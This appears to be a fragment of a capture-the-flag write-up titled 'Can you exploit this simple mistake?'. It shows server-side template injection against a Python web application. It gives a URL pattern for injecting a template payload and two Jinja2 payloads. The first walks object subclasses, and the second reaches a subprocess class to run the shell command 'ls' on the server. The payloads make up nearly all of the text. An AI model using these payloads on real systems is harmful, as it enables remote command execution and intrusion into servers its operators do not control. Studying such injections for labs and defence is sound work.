 # __Can you exploit this simple mistake?__

<http://remote_ip:port/{{template_payload}}>

<img src="images/templated_01.PNG">

{{''.__class__.mro()[1].__subclasses__()}}

{{''.__class__.mro()[1].__subclasses__()[414]('ls',shell=True,stdout=-1).communicate()[0].strip()}}
